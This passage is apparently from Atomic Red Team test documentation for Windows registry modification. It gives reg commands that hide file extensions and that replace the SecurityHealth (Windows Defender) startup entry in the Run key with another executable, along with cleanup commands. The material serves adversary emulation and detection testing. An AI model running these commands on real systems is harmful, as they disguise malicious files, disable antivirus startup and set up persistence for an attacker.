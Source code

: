 
#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /t REG_DWORD /v HideFileExt /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v HideFileExt /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Modify Registry of Local Machine - cmd
Modify the Local Machine registry RUN key to change Windows Defender executable that should be ran on startup.  This should only be possible when
CMD is ran as Administrative rights. Upon execution, the message "The operation completed successfully."
will be displayed. Additionally, open Registry Editor to view the modified entry in HKLM\Software\Microsoft\Windows\CurrentVersion\Run.

**Supported Platforms:** Windows


**auto_generated_guid:** 282f929a-6bc5-42b8-bd93-960c3ba35afe





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| new_executable | New executable to run on startup instead of Windows Defender | string | calc.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d #{new_executable} /f
```

#### Cleanup Commands:
```cmd
reg delete HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v SecurityHealth /f >nul 2>&1
```
